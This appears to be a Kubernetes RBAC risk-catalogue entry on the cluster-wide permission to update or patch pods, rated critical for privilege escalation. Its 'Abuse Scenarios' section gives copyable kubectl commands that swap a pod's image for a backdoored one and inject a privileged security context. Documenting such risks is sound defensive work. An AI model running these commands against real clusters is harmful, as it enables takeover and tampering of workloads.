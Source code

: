 ```yaml
---
id: 1008
title: "Update/Patch pods cluster-wide"
description: "Permits modifying existing pods in any namespace across the cluster. This is critical as an attacker can alter a pod's specification to grant it elevated privileges (e.g., change image, add privileged security context, mount sensitive host paths), leading to code execution, privilege escalation, and tampering with running workloads."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1008                                                                                      |
| Name          | Update/Patch pods cluster-wide                                                            |
| Risk Category | Elevation of Privilege                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                     |
| Role Type     | ClusterRole                                                                               |
| API Groups    | core                                                                                      |
| Resources     | pods                                                                                      |
| Verbs         | update, patch                                                                             |
| Tags          | {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadExecution" >}} |

## Description

Permits modifying existing pods in any namespace across the cluster. This is critical as an attacker can alter a pod's specification to grant it elevated privileges (e.g., change image, add privileged security context, mount sensitive host paths), leading to code execution, privilege escalation, and tampering with running workloads.

## Abuse Scenarios

1. Patch a running pod to change its container image to a malicious one.

```bash {copy=true}
kubectl set image pod/<pod-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image pod/nginx-deployment-xyz nginx=malicious/nginx-backdoor -n default

```

2. Patch a running pod to add a privileged security context (if not blocked by PSP/PSA).

```bash {copy=true}
kubectl patch pod <pod-name> -n <namespace> --type='json' -p='[{"op": "add", "path": "/spec/containers/0/securityContext", "value": {"privileged": true}}]'
# Example: kubectl patch pod my-app-pod -n production --type='json' -p='[{"op": "add", "path": "/spec/containers/0/securityContext", "value": {"privileged": true}}]'

```
